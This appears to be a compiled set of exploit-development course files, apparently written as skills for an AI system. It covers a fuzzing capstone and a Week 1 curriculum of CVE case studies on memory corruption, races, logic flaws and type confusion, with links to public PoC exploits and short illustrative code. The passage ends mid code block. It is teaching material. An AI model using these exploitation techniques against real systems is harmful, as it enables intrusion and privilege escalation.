3. What are the risks of "over-mocking" in a harness (e.g., bypassing too much initialization) versus "under-mocking" (doing too much I/O)?
4. How do you handle state cleanup in a persistent-mode harness to prevent false positives from memory leaks or global state pollution?
5. Why is it important to fuzz different layers of an application (e.g., the compression layer vs. the archive parsing layer) separately?

## Week 2 Capstone Project: The Fuzzing Campaign

- **Goal**: Apply the week's techniques to discover and analyze a vulnerability in a real-world open source target or a complex challenge binary.
- **Activities**:
  - **Select a Target**:
    - Choose a C/C++ library that parses complex data (e.g., JSON, XML, Images, Archives, Network Packets).
    - Suggestions: `json-c`, `libarchive`, `libpng`, `tinyxml2`, `mbedtls`, or a known vulnerable version of a project (e.g., `libwebp` 1.0.0).
  - **Harness Development**:
    - Write a `LLVMFuzzerTestOneInput` harness or an AFL++ persistent mode harness.
    - Ensure the harness compiles with ASAN and UBSAN.
  - **Campaign Execution**:
    - Gather a valid seed corpus (from the internet or by generating samples).
    - Minimize the corpus using `afl-cmin` or `afl-tmin` (or libFuzzer's merge mode).
    - Run the fuzzer for at least 4 hours (or until a crash is found).
  - **Triage and Analysis**:
    - Deduplicate crashes.
    - Use GDB and ASAN reports to identify the root cause (e.g., Heap Overflow, UAF).
    - Determine exploitability (Control of instruction pointer? Arbitrary write?).
  - **Report**:
    - Document the target, harness code, campaign commands, and crash analysis.

### Deliverables

- A `fuzzing_report.md` containing:
  - **Target Details**: Project name, version, and function targeted.
  - **Harness Code**: The C/C++ harness you wrote.
  - **Campaign Stats**: Fuzzer used, duration, executions/sec, and coverage achieved.
  - **Crash Analysis**: ASAN output, GDB investigation, and root cause explanation.
  - **PoC**: A minimal input file that triggers the crash.

### Looking Ahead to Week 3

Next week, you'll learn patch diffing - analyzing security updates to understand what was fixed and discovering variant vulnerabilities. You'll see how fuzzing discoveries lead to patches, and how analyzing those patches can reveal additional bugs.

<!-- Written by AnotherOne from @Pwn3rzs Telegram channel -->


### From `hunt-skills/fuzzing/offensive-vuln-classes/SKILL.md`

## Metadata
- **Skill Name**: vulnerability-classes
- **Folder**: offensive-vuln-classes
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/1-vulnerability-classes.md

## Description
Exploit development curriculum covering core vulnerability classes with real-world CVE case studies: stack/heap buffer overflows, use-after-free, integer overflows, format strings, type confusion, and race conditions. Use when learning or teaching vuln classes, researching specific CVE patterns, or building exploit dev knowledge.

## Trigger Phrases
Use this skill when the conversation involves any of:
`vulnerability classes, buffer overflow, use-after-free, UAF, heap overflow, stack overflow, type confusion, integer overflow, format string, memory corruption, CVE case study, exploit development, Day 1-7`

## Course Overview

_created by AnotherOne from @Pwn3rzs Telegram channel_.

This document is Week 1 of a multi‑week exploit development course, focusing on core vulnerability classes and real‑world exploitation context.

Next Week we'll focus on using fuzzing to identify new vulnerabilites and in week 3 we'll focus on using patch diffing to find n-days

## Day 1: Memory Corruption Fundamentals

- **Goal**: Understand primary memory corruption vulnerability classes and their real-world impact.
- **Activities**:
  - _Reading_:
    - "The Art of Software Security Assessment" by Mark Dowd, John McDonald, Justin Schuh - Chapter 5: Memory Corruption
    - [Memory Corruption: Examples, Impact, and 4 Ways to Prevent It](https://sternumiot.com/iot-blog/memory-corruption-examples-impact-and-4-ways-to-prevent-it/)
  - _Online Resources_:
    - [Microsoft Security Research: Memory Safety](https://www.microsoft.com/en-us/research/project/checked-c/)
    - [Google Project Zero Blog](https://googleprojectzero.blogspot.com/) - Read recent memory corruption findings
  - _Concepts_:
    - What is memory corruption and why does it matter?
    - Understanding the stack, heap, and their differences
    - The lifecycle of memory: allocation → use → deallocation

### Stack Buffer Overflow

**What It Is**: A stack overflow occurs when a program writes more data to a buffer located on the stack than it can hold, causing adjacent memory to be overwritten. This can corrupt important data like return addresses, allowing attackers to redirect program execution.

**Case Study - CVE-2024-27130 (QNAP QTS/QuTS hero Stack Overflow)**:

- **The Bug**: QNAP's QTS and QuTS hero operating systems contained multiple buffer copy vulnerabilities where unsafe functions like `strcpy()` were used to copy user-supplied input into fixed-size stack buffers without proper size validation. The vulnerabilities affected the web administration interface and file handling components. [POC](https://github.com/watchtowrlabs/CVE-2024-27130)
- **The Attack**: An authenticated remote attacker could send specially crafted requests with oversized input to vulnerable endpoints. The unchecked data would overflow stack buffers, corrupting adjacent memory including return addresses and saved frame pointers.
- **The Impact**: Remote code execution with the privileges of the QNAP system service. The attacker could gain complete control over the NAS device, accessing stored data, pivoting to other network resources, or installing persistent backdoors.
- **The Fix**: QNAP released QTS 5.1.7.2770 build 20240520 and QuTS hero h5.1.7.2770 build 20240520 in May 2024, replacing unsafe string copy functions with bounds-checked alternatives and implementing additional input validation.
- **Why It Matters**: Stack overflows remain common in embedded devices and NAS systems running legacy C/C++ code. They're particularly dangerous in internet-facing administration interfaces and often provide the initial foothold for sophisticated attack chains against enterprise infrastructure.

### Use-After-Free (UAF)

**What It Is**: A use-after-free vulnerability occurs when a program continues to use a pointer after the memory it points to has been freed. This creates a "dangling pointer" that can be exploited by carefully controlling heap allocations to place attacker-controlled data where the freed object once lived.

**Case Study - CVE-2024-2883 (Chrome ANGLE Use-After-Free)**:

- **The Bug**: Google Chrome's ANGLE (Almost Native Graphics Layer Engine) component, which translates OpenGL ES API calls to DirectX, Vulkan, or native OpenGL, contained a use-after-free vulnerability. The bug occurred when WebGL contexts were destroyed while still referenced by pending graphics operations, leaving dangling pointers to freed graphics objects.
- **The Attack**: An attacker could create a malicious HTML page with specially crafted WebGL JavaScript code that triggered rapid creation and destruction of graphics contexts. By carefully timing these operations, the attacker could cause ANGLE to reference already-freed memory. Using heap spray and heap feng-shui techniques, the attacker could control the contents of the freed memory region.
- **The Impact**: Remote code execution via a crafted web page with no user interaction beyond visiting the page. By placing a fake object in the freed memory location, the attacker could hijack control flow and execute arbitrary code in the renderer process. This could be chained with sandbox escape exploits for full system compromise.
- **The Fix**: Google Chrome 123.0.6312.86 (released March 2024) fixed the vulnerability by implementing proper lifetime management for graphics objects and adding reference counting to prevent premature destruction of objects still in use.
- **Why It Matters**: UAF vulnerabilities are particularly dangerous in browsers and complex C++ applications where object lifetimes are difficult to track. Graphics subsystems like ANGLE are attractive targets because they handle untrusted content and have complex state management. They're a favorite target for advanced attackers because they offer fine-grained control over program execution.

### Heap Buffer Overflow

**What It Is**: Similar to stack overflows, heap overflows occur when a program writes beyond the boundaries of a dynamically allocated buffer on the heap. Instead of corrupting stack frames, heap overflows typically corrupt heap metadata or adjacent objects, leading to memory corruption when the heap allocator later processes the corrupted structures.

**Case Study - CVE-2023-4863 (libWebP Heap Buffer Overflow)**:

- **The Bug**: The libWebP library, used by Chrome, Firefox, Edge, and many other applications for processing WebP images, contained a heap buffer overflow in the `BuildHuffmanTable()` function. When parsing specially crafted WebP images with malformed Huffman coding data, the function would write beyond the allocated buffer boundaries. [POC](https://github.com/mistymntncop/CVE-2023-4863)
- **The Attack**: An attacker could embed a malicious WebP image in a web page or send it via messaging apps. When the victim's browser or application attempted to decode the image, the overflow would occur. The attacker could control the overflow data to corrupt heap metadata and adjacent objects.
- **The Impact**: Remote code execution with no user interaction beyond viewing a web page or opening an image. Exploited as a zero-day in the wild before public disclosure. The vulnerability affected billions of devices across multiple platforms (Windows, macOS, Linux, Android, iOS).
- **The Fix**: libWebP 1.3.2 (September 2023) fixed the bounds checking in `BuildHuffmanTable()`. Chrome 116.0.5845.187, Firefox 117.0.1, and other affected software released emergency patches.
- **Why It Matters**: Heap buffer overflows in image parsers are particularly dangerous because images are ubiquitous and processed automatically. This vulnerability demonstrated the supply chain risk of widely-used libraries - a single bug in libWebP affected dozens of major applications. Modern heap exploitation techniques can bypass ASLR and other protections when combined with information leaks.

### Out-of-Bounds Read (Info Leak)

**What It Is**: Reading past buffer bounds without modifying memory. Frequently used to leak pointers, object metadata, and kernel layout to defeat KASLR and build arbitrary read/write primitives.

**Case Study - CVE-2024-53108 (Linux AMDGPU Display Driver OOB Read)**:

- **The Bug**: In the AMD display driver’s EDID/VSDB parsing path, insufficient bounds checking allowed out-of-bounds reads when extracting identifiers, leading to slab-out-of-bounds access under KASAN.
- **The Attack**: A crafted display/EDID data stream could trigger an OOB read in kernel space. While not directly granting write primitives, the info leak can expose kernel memory contents and aid in bypassing KASLR.
- **The Impact**: Information disclosure and potential system instability.
- **The Fix**: Kernel updates tightened length validation within the AMD display capability parsing logic to ensure all reads stay within EDID buffer bounds. [DIFF](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/diff/?id=16dd2825c23530f2259fc671960a3a65d2af69bd)
- **Why It Matters**: Pure OOB reads are valuable for building reliable exploit chains (e.g., pairing with separate write primitives), especially in kernel contexts where defeating KASLR is pivotal.

### Uninitialized Memory Use

**What It Is**: Using stack/heap/pool memory before it is initialized. Contents may include stale pointers, capability flags, or structure fields.

**Case Study - CVE-2024-26581 (Linux Kernel Netfilter Uninitialized Variable)**:

- **The Bug**: The Linux kernel's netfilter subsystem contained an uninitialized variable vulnerability in the `nf_tables` component. When processing netlink messages to configure firewall rules, the `nft_pipapo_walk()` function failed to initialize a local variable before use. The uninitialized stack variable could contain residual data from previous function calls, including kernel pointers and sensitive memory addresses. [POC](https://sploitus.com/exploit?id=A4D521EE-225F-57D5-8C31-9F1C86D066B6)
- **The Attack**: An attacker with `CAP_NET_ADMIN` capability (obtainable via unprivileged user namespaces on many distributions) could trigger specific netfilter operations that caused the uninitialized variable to be read and copied back to userspace through netlink responses. By repeatedly triggering the vulnerable code path and analyzing returned data, an attacker could extract kernel memory contents including heap/stack addresses.
- **The Impact**: Information disclosure leading to KASLR (Kernel Address Space Layout Randomization) bypass. The leaked kernel addresses could then be used to reliably exploit other kernel vulnerabilities, turning potential denial-of-service bugs into privilege escalation or code execution. This vulnerability was particularly dangerous when combined with other netfilter bugs for full LPE chains.
- **The Fix**: Linux kernel 6.8-rc1 (February 2024) added proper initialization of the variable using designated initializers: `struct nft_pipapo_match *m = NULL;` and added explicit zero-initialization for stack structures. Additionally, the patch enabled stricter compiler warnings (`-Wuninitialized`) for the netfilter subsystem.
- **Why It Matters**: Uninitialized memory reads are frequently the first stage in exploit chains, providing the entropy reductions needed to bypass modern mitigations like KASLR. They're particularly valuable in kernel exploitation where defeating ASLR is essential for reliable exploitation. The combination of unprivileged user namespaces granting `CAP_NET_ADMIN` and uninitialized memory leaks in netfilter makes this class of vulnerability accessible to local attackers without requiring root privileges.

### Reference Counting Bugs

**What It Is**: Incorrect increments/decrements or overflows in reference counters controlling object lifetime (filesystems, networking, drivers).

**Case Study - CVE-2022-32250 (Linux Netfilter nf_tables Use-After-Free)**:

- **The Bug**: The Linux kernel's netfilter subsystem (`net/netfilter/nf_tables_api.c`) had a reference counting error in the nf_tables component. An incorrect `NFT_STATEFUL_EXPR` check failed to properly track expression object lifetimes during rule updates, leading to premature object destruction while references still existed.
- **The Attack**: A local attacker with the ability to create user/network namespaces (unprivileged on many distributions) could manipulate nf_tables firewall rules to trigger the reference counting bug. By creating and modifying stateful expressions in specific sequences, the attacker could cause the kernel to free an object while it was still being referenced, creating a use-after-free condition.
- **The Impact**: Local privilege escalation from any user to root on systems allowing unprivileged namespaces (default on Ubuntu, Debian, and others). The UAF primitive could be exploited for arbitrary kernel memory read/write, typically used to modify credentials or overwrite function pointers. Affected Linux kernels from 4.1 (2015) through 5.18.1 (2022). [Public exploit available](https://github.com/theori-io/CVE-2022-32250-exploit).
- **The Fix**: Linux kernel 5.18.2+ corrected the reference counting logic for stateful expressions, ensuring proper lifetime tracking during rule operations. The patch added explicit reference count increments/decrements at the appropriate points in the code path.
- **Why It Matters**: Reference counting bugs are subtle and can lead to premature free → use-after-free conditions, or refcount overflow → free while references remain. They're particularly dangerous in kernel code where object lifetime management is critical. The accessibility via unprivileged user namespaces made this vulnerability particularly impactful for local privilege escalation.

### NULL Pointer Dereference

**What It Is**: Dereferencing a NULL pointer in privileged code. While modern systems typically prevent user-space mapping of NULL pages, kernel NULL pointer dereferences remain a significant source of denial-of-service vulnerabilities and can occasionally enable privilege escalation in specific contexts.

**Case Study - CVE-2023-52434 (Linux SMB Client NULL Pointer Dereference)**:

- **The Bug**: The Linux kernel's SMB (CIFS) client implementation contained a NULL pointer dereference vulnerability in the `smb2_parse_contexts()` function. When parsing server responses during SMB2/SMB3 connection establishment, the code failed to properly validate offsets and lengths of create context structures before dereferencing pointers. Malformed create contexts with invalid offsets could cause the kernel to access unmapped memory addresses, triggering a NULL pointer dereference.
- **The Attack**: A malicious or compromised SMB server could send crafted SMB2_CREATE responses with invalid create context structures. When a Linux client attempted to mount the share or access files, the kernel would parse these malformed contexts without proper bounds checking. The vulnerability was triggered during the mount operation or file access, requiring only that a user attempt to connect to the malicious server.
- **The Impact**: Denial of service affecting Linux kernels from 5.3 through 6.7-rc5. The NULL pointer dereference caused an immediate kernel panic with the error "unable to handle page fault for address: ffff8881178d8cc3" in the `smb2_parse_contexts()` function. Any user with permission to mount SMB shares could trigger the vulnerability, making it exploitable in multi-user environments. CVSS Score: 8.0 (High) with attack vector: Adjacent Network, requiring low privileges and no user interaction.
- **The Fix**: Linux kernel patches (versions 5.4.277, 5.10.211, 5.15.150, 6.1.80, and 6.6.8+) added comprehensive validation of create context offsets and lengths before dereferencing. The patches ensure all pointer arithmetic stays within allocated buffer boundaries during SMB protocol parsing.
- **Why It Matters**: NULL pointer dereferences in network protocol parsers are particularly dangerous because they can be triggered remotely by malicious servers or through man-in-the-middle attacks. While modern kernel protections prevent NULL page mapping (mitigating historical privilege escalation techniques), the DoS impact remains critical for availability.

### Key Takeaways

1. **Memory corruption remains prevalent**: Despite decades of security research, memory corruption bugs continue to plague software, especially in C/C++ codebases.
2. **Defense-in-depth is essential**: Each real-world example shows attackers bypassing multiple protection mechanisms (DEP, ASLR, CET, XFG, safe-linking).
3. **Modern mitigations raise the bar but don't eliminate risk**: While technologies like CET shadow stack and safe-linking make exploitation harder, determined attackers continue to find bypasses.
4. **Root causes are similar, but contexts differ**: Stack, heap, and UAF bugs share common root causes (inadequate bounds checking, lifetime management) but require different exploitation techniques.
5. **Legacy components remain vulnerable**: Years-old vulnerabilities in office parsers and archive handlers continue to be exploited due to slow patching.

### Discussion Questions

1. What commonalities do you see across the memory corruption vulnerability classes covered today?
2. Why do memory corruption vulnerabilities persist despite decades of research into memory-safe languages?
3. How do the exploitation techniques differ between stack, heap, and UAF vulnerabilities?
4. What defense mechanisms were bypassed in each example, and what does that tell us about the current state of exploit mitigation?
5. How do reference counting bugs lead to use-after-free conditions, and why are they particularly difficult to detect?
6. What role do information leaks (like OOB reads and uninitialized memory) play in modern exploit chains?

## Day 2: Logic Vulnerabilities and Race Conditions

- **Goal**: Understand logic vulnerabilities that don't involve memory corruption but can be equally dangerous.
- **Activities**:
  - _Reading_:
    - "Web Application Security, 2nd Edition" by Andrew Hoffman - Chapter 18: "Business Logic Vulnerabilities"
    - [Portswigger Logic Flaws](https://portswigger.net/web-security/logic-flaws)
  - _Online Resources_:
    - [Time-of-check Time-of-use (TOCTOU) Vulnerabilities](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
    - [Microsoft: Avoiding Race Conditions](https://learn.microsoft.com/en-us/windows/win32/sync/synchronization-and-multiprocessor-issues)
  - _Concepts_:
    - Race conditions and their causes
    - TOCTOU (Time-of-Check Time-of-Use) vulnerabilities
    - Double-fetch vulnerabilities
    - Logic flaws in authentication and authorization

### Race Conditions

**What It Is**: A race condition occurs when the behavior of software depends on the relative timing of events, such as the order in which threads execute. When multiple threads or processes access shared resources without proper synchronization, an attacker can manipulate the timing to cause unexpected behavior.

**Common Patterns**:

1. **File System Race Conditions**: Check a file's permissions, then open it (attacker swaps the file between check and open).
2. **Double-Fetch**: Kernel reads user-mode memory twice, attacker modifies it between reads.
3. **Synchronization Primitives**: Missing or incorrect use of locks, mutexes, or atomic operations.

**Real-World Context - Windows TOCTOU Race Condition (CVE-2024-26218)**:

- **The Bug Pattern**: A Time-of-Check Time-of-Use (TOCTOU) race condition in the Windows Kernel allowed an attacker to exploit a timing window between validation and usage of kernel resources. The vulnerability occurred when the kernel checked permissions or resource states but didn't atomically perform the subsequent operation, allowing a racing thread to modify the resource state between check and use.
- **The Attack**:
  1. **Check Phase**: Kernel validates resource permissions/state (e.g., file access rights, object ownership).
  2. **Race Window**: Attacker's thread modifies the resource state (e.g., replaces object, changes permissions).
  3. **Use Phase**: Kernel operates on the now-modified resource, assuming the original validated state.
  4. **Result**: Privilege escalation by operating on resources with elevated privileges.
- **The Impact**: Local privilege escalation from low-privileged user to SYSTEM. CVSS Score: 7.7 (HIGH). Affected Windows 10, Windows 11, and Windows Server 2019/2022 systems. Patched in April 2024 (Microsoft Patch Tuesday).
- **Why It's Hard to Fix**: Requires atomic check-and-use operations, proper locking mechanisms across complex kernel subsystems, or defensive copying to ensure the checked state matches the used state. Many kernel operations assume sequential execution without considering concurrent modification.

### Time-of-Check Time-of-Use (TOCTOU)

**What It Is**: TOCTOU is a specific type of race condition where there's a gap between checking a condition and using the result. During that gap, the condition can change, invalidating the check.

**Classic Example - Symbolic Link Attacks**:

```
1. Program checks if /tmp/important_file is safe to write
2. [RACE WINDOW] Attacker creates symlink: /tmp/important_file -> /etc/passwd
3. Program writes to /tmp/important_file (now actually /etc/passwd)
```

**Real-World Impact**:

- **Privilege Escalation**: TOCTOU bugs in privileged programs can allow unprivileged users to modify protected files.
- **Bypass Security Checks**: Authentication or authorization checks can be circumvented if the resource changes between check and use.
- **Data Corruption**: Unexpected file modifications can corrupt system state.

**Recent Example - 7-Zip Symlink Path Traversal (CVE-2025-11001/11002)**:

- **The Bug**: Improper validation of symlink targets in ZIP extraction allowed directory traversal via crafted symlinks, enabling writes outside the intended extraction directory.
- **The Attack**: A malicious archive embeds symlinks that resolve to sensitive paths; when extracted, files are written to arbitrary locations, enabling code execution scenarios depending on target path.
- **The Impact**: Arbitrary file write leading to potential RCE in user context.
- **The Fix**: Updates addressed symlink conversion and validation logic during extraction to prevent traversal outside the destination directory.

### Double-Fetch Vulnerabilities

**What It Is**: A double-fetch occurs when kernel code reads user-mode memory twice, assuming it won't change between reads. An attacker with multiple threads can modify the memory after the first read but before the second, causing kernel code to operate on inconsistent data.

**Case Study - CVE-2023-4155 (Linux KVM AMD SEV Double-Fetch)**:

- **The Bug**: A double-fetch race condition in the Linux kernel's KVM (Kernel-based Virtual Machine) AMD Secure Encrypted Virtualization (SEV) implementation. KVM guests using SEV-ES or SEV-SNP with multiple vCPUs could trigger the vulnerability by manipulating shared guest memory that the hypervisor reads twice without proper synchronization.
- **The Bug Pattern**: The `VMGEXIT` handler in the hypervisor read guest-controlled memory to determine which operation to perform. An attacker could modify this memory between the first read (validation) and second read (usage), causing inconsistent behavior.
- **The Attack**:
  1. **First Read**: Hypervisor reads guest memory to validate the VMGEXIT reason code.
  2. **Race Window**: Attacker's vCPU thread modifies the guest memory containing the reason code.
  3. **Second Read**: Hypervisor reads the modified value and processes a different operation than validated.
  4. **Result**: Recursive invocation of the `VMGEXIT` handler, leading to stack overflow.
- **The Impact**: Denial of service (DoS) via stack overflow in hypervisor. In kernel configurations without stack guard pages (`CONFIG_VMAP_STACK`), potential guest-to-host escape.
- **The Fix**: Linux kernel patches added proper synchronization to ensure the VMGEXIT reason code is read once and stored in a local variable, preventing the double-fetch condition. Added checks to prevent recursive handler invocation.
- **Why It's Hard to Fix**: Requires identifying all locations where hypervisor code reads guest memory multiple times, copying guest data into hypervisor memory once, and operating on the stable copy. Performance considerations make defensive copying expensive in virtualization hot paths.

### Logic Flaws in Authentication and Authorization

**What It Is**: Bugs in the logical flow of authentication or authorization checks that allow attackers to bypass security boundaries without exploiting memory corruption.

**Case Study - CVE-2024-0012 (Palo Alto PAN-OS Authentication Bypass)**:

- **The Bug**: Palo Alto Networks PAN-OS software contained an authentication bypass vulnerability in its management web interface. The vulnerability allowed an unauthenticated attacker to bypass authentication checks entirely and gain administrator privileges without providing any credentials.[POC](https://github.com/0xjessie21/CVE-2024-0012)
- **The Attack**: An attacker with network access to the PAN-OS management web interface could send specially crafted requests that bypassed authentication logic. No credentials or user interaction were required—the attacker could directly gain administrator access by exploiting the flaw in the authentication validation code.
- **The Impact**: Complete authentication bypass allowing unauthenticated remote attackers to gain PAN-OS administrator privileges. This enabled attackers to perform administrative actions, tamper with firewall configurations, extract sensitive data, or chain with other vulnerabilities like CVE-2024-9474 for further exploitation.
- **The Fix**: Palo Alto released patches in versions 10.2.12, 11.0.6, 11.1.5, and 11.2.4 (November 2024) that corrected the authentication validation logic. Additionally, Palo Alto recommended restricting management interface access to only trusted internal IP addresses as a defense-in-depth measure.
- **Why It Matters**: Logic flaws in authentication and authorization can lead to privilege escalation (user becomes admin), horizontal privilege escalation (user A accesses user B's data), or authentication bypass (access without credentials) - all without memory corruption. Missing checks, state confusion, parameter tampering, and session management flaws are common patterns. This vulnerability demonstrates how authentication logic flaws in network devices can provide complete system compromise without requiring memory corruption exploitation.

### Arbitrary Write (Write-What-Where)

**What It Is**: The attacker can write a controlled value to a controlled address.

**Case Study - CVE-2024-21338 (Windows AppLocker Driver Arbitrary Function Call → Arbitrary Write)**:

- **The Bug**: The Windows AppLocker driver (appid.sys) contained a vulnerability in its IOCTL handler (control code `0x22A018`) that allowed an attacker with local service privileges to call arbitrary kernel function pointers with controlled arguments. The IOCTL was designed to accept kernel function pointers for file operations but remained accessible from user space without proper validation. [POC](https://github.com/hakaioffsec/CVE-2024-21338)
- **The Attack**: An attacker could impersonate the local service account and send a specially crafted IOCTL request to `\Device\AppId` with malicious function pointers. By choosing the right gadget function, the attacker could perform a 64-bit copy to an arbitrary kernel address - specifically targeting the `PreviousMode` field in the current thread's `KTHREAD` structure. Corrupting `PreviousMode` to `KernelMode` (0) bypasses kernel-mode checks in syscalls like `NtReadVirtualMemory` and `NtWriteVirtualMemory`, granting arbitrary kernel read/write capabilities from user mode.
- **The Impact**: Local privilege escalation from local service (or admin via impersonation) to kernel-level arbitrary read/write. This primitive enabled the sophisticated FudModule rootkit to perform direct kernel object manipulation (DKOM), disable security callbacks, blind ETW telemetry, and suspend PPL-protected security processes.
- **The Fix**: Microsoft released patches in February 2024 (Patch Tuesday) that added an `ExGetPreviousMode` check to the IOCTL handler, preventing user-mode initiated IOCTLs from triggering the arbitrary callback invocation.
- **Why It Matters**: This represents a sophisticated evolution beyond traditional BYOVD (Bring Your Own Vulnerable Driver) techniques. By exploiting a zero-day in a built-in Windows driver, attackers achieved a truly fileless kernel attack with no need to drop or load custom drivers. The arbitrary write primitive (achieved via PreviousMode corruption) is a canonical technique to flip privilege bits, overwrite function pointers, or modify security policy data. This case demonstrates how IOCTL handlers with insufficient input validation can provide powerful primitives for kernel exploitation, especially when they accept function pointers or allow object confusion.

### Locking/RCU Misuse

**What It Is**: Incorrect lock ordering, missing locks, or misuse of RCU leading to races on freed objects.

**Case Study - CVE-2023-32629 (Linux Netfilter nf_tables Race Condition)**:

- **The Bug**: The Linux kernel's netfilter nf_tables subsystem contained a race condition vulnerability due to improper locking when handling batch operations. The vulnerability occurred in the transaction handling code where concurrent access to nf_tables objects wasn't properly synchronized, allowing use-after-free conditions.[POC](https://github.com/ThrynSec/CVE-2023-32629-CVE-2023-2640---POC-Escalation)
- **The Attack**: An attacker with `CAP_NET_ADMIN` capability (obtainable through unprivileged user namespaces on many distributions) could exploit the race by sending concurrent netlink messages to manipulate nf_tables rules. By carefully timing these operations across multiple threads, the attacker could trigger a window where one thread frees an object while another thread still holds a reference to it.
- **The Impact**: Local privilege escalation from unprivileged user to root on systems with unprivileged user namespaces enabled (default on Ubuntu, Debian, Fedora, and others). The use-after-free primitive could be exploited to gain arbitrary kernel read/write capabilities, typically used to modify process credentials or overwrite kernel function pointers. Affected Linux kernels prior to version 6.3.1 (May 2023).
- **The Fix**: Linux kernel 6.3.1 added proper locking mechanisms around nf_tables batch transaction processing, implemented reference counting to track object lifetimes correctly, and ensured atomic operations for concurrent access to shared netfilter data structures.
- **Why It Matters**: Locking and RCU misuse leads to reproducible UAF and memory corruption in hot paths like filesystems, networking, and timers. Incorrect lock ordering, missing locks, and RCU violations are particularly dangerous in kernel code where concurrency is pervasive. The netfilter subsystem continues to be a recurring source of such vulnerabilities due to its complexity and extensive use of concurrent data structures.

### Key Takeaways

1. **Logic vulnerabilities don't require memory corruption**: Authentication bypasses, TOCTOU flaws, and arbitrary write primitives can be as impactful as traditional memory corruption.
2. **Concurrency bugs enable sophisticated exploits**: Double-fetch, race conditions and locking misuse are difficult to reproduce but provide reliable exploitation when timing is controlled.
3. **Arbitrary write is the ultimate primitive**: Whether achieved through IOCTL handlers, PreviousMode corruption, or RCU misuse, arbitrary kernel write enables privilege escalation, security callback disabling, and rootkit deployment.
4. **User namespaces expand attack surface**: Many kernel vulnerabilities (netfilter, io_uring) become exploitable from unprivileged contexts when user namespaces grant capabilities like `CAP_NET_ADMIN`.
5. **Defense requires atomic operations**: TOCTOU vulnerabilities demonstrate that check-then-use patterns are inherently racy; atomic check-and-use operations, proper locking, and defensive copying are essential.

### Discussion Questions

1. How do double-fetch vulnerabilities differ from traditional TOCTOU race conditions and what makes them particularly dangerous in hypervisor contexts?
2. Compare the exploitation complexity of authentication logic flaws versus kernel race conditions Which provides more reliable exploitation and why?
3. How does the arbitrary write primitive achieved in CVE-2024-21338 (via PreviousMode corruption) differ from traditional buffer overflow-based arbitrary write, and what advantages does it provide to attackers?
4. What role do user namespaces play in the exploitability of kernel bugs like CVE-2023-32629, and should distributions reconsider their default unprivileged namespace policies?

## Day 3: Type Confusion, Integer, Parser Vulnerabilities

- **Goal**: Understand how type mismatches and integer arithmetic errors lead to exploitable conditions.
- **Activities**:
  - _Reading_:
    - "A Guide to Kernel Exploitation" by Enrico Perla and Massimiliano Oldani - Chapter 2: "a Taxonomy of Kernel Vulnerabilities"
    - [CWE-190: Integer Overflow or Wraparound](https://cwe.mitre.org/data/definitions/190.html)
    - [CWE-843: Type Confusion](https://cwe.mitre.org/data/definitions/843.html)
  - _Online Resources_:
    - [Understanding Type Confusion Vulnerabilities](https://hackingportal.github.io/Type_Confusion/type_confusion.html)
    - [Type Confusion in Kernel Driver](https://whiteknightlabs.com/2025/07/08/understanding-type-confusion-in-kernel-driver/)
  - _Concepts_:
    - Type systems and type safety
    - JIT compilation and type confusion
    - Integer overflow, underflow, and truncation
    - Signed/unsigned confusion

### Type Confusion Vulnerabilities

**What It Is**: Type confusion occurs when a program processes an object as a different type than intended. This can happen in dynamically-typed languages, during unsafe type casts, or in JIT compilers that make incorrect assumptions about object types.

**Why They're Dangerous**:

- Objects of different types have different memory layouts
- Treating Type A as Type B can expose internal pointers, corrupt metadata, or provide arbitrary read/write primitives
- In JIT compilers, type confusion can bypass sandbox protections

**Real-World Example - CVE-2024-7971 (V8 TurboFan Type Confusion)**:

**Background**: V8 is the JavaScript engine powering Chrome, Edge, and Node.js. TurboFan is V8's optimizing JIT compiler that converts JavaScript to highly-optimized machine code based on runtime type information.

**The Bug**: TurboFan's `CheckBounds` elimination optimization incorrectly assumed array element types during JIT compilation. When encountering a polymorphic inline cache (an optimization for code that handles multiple types), TurboFan sometimes confused tagged pointers (Heap objects) with SMI (Small Integers, V8's immediate integer representation).[POC](https://github.com/mistymntncop/CVE-2024-7971)

**The Attack**:

1. **Type Confusion Setup**: Craft JavaScript with polymorphic inline cache that triggers speculative optimization on mixed `SMI`/`HeapNumber` array.

   ```javascript
   // Simplified concept (not actual exploit):
   let arr = [1, 2, 3]; // SMI array
   arr[0] = 1.5; // Now mixed SMI and HeapNumber
   // TurboFan optimizes assuming one type, confusion occurs
   ```

2. **Primitive Construction**: The type confusion allowed creating a fake JSArray with a controlled backing store pointer.

3. **Memory Corruption**: By corrupting the `length` field of the fake array, the attacker achieved out-of-bounds read/write capabilities.

4. **Sandbox Escape**: Pivot to WASM RWX (read-write-execute) page for shellcode execution, bypassing V8's sandbox.

**Mitigations Bypassed**:

- **V8 Sandbox (Pointer Compression)**: The V8 sandbox isolates JavaScript objects from native memory. The attacker bypassed this using pointer compression primitives.
- **CFI (Control-Flow Integrity)**: JIT-generated code is often exempt from CFI checks, allowing the attacker to execute arbitrary code.

**The Fix**: V8 patched the `CheckBounds` elimination logic to correctly track type information during optimization passes.

**Why It Matters**: Browser exploitation is a high-value target for attackers. Type confusion in JIT compilers is a common vulnerability class, with new variants discovered regularly.

### JIT Compiler Exploitation Concepts

**Background on JIT Compilation**:

- JIT compilers observe runtime behavior and generate optimized machine code
- They make assumptions based on type inference and profiling
- When assumptions are violated but the compiler doesn't properly handle it, bugs occur

**Common JIT Vulnerability Patterns**:

1. **Type Confusion**: Incorrect type inference leading to wrong optimizations
2. **Bounds Check Elimination**: Removing safety checks based on incorrect assumptions
3. **Register Allocation Bugs**: Incorrect register usage leading to data corruption
4. **Inline Cache Poisoning**: Manipulating cached type information

**Exploitation Primitives Built from Type Confusion**:

- **addrof**: Leak object addresses (information leak for ASLR bypass)
- **fakeobj**: Create fake objects with controlled structure (type confusion)
- **arbitrary read/write**: Out-of-bounds access to any memory location
- **code execution**: Pivot to RWX pages or corrupt code pointers

### Integer Overflow, Underflow, and Truncation

**What They Are**:

- **Overflow**: Exceeding maximum value (e.g., `INT_MAX + 1` wraps to `INT_MIN`)
- **Underflow**: Going below minimum value (e.g., `0 - 1` becomes `UINT_MAX` for unsigned)
- **Truncation**: Losing data when converting larger to smaller type (e.g., `(uint32_t)0x100000000` becomes `0`)

**Why They're Dangerous**:
Integer bugs often lead to memory corruption because integers are used for:

- Buffer sizes in memory allocation
- Loop counters and array indices
- Length checks and bounds validation

**Common Exploitation Pattern**:

```c
// Vulnerable code pattern:
size_t size = user_controlled_value1 + user_controlled_value2;  // Overflow!
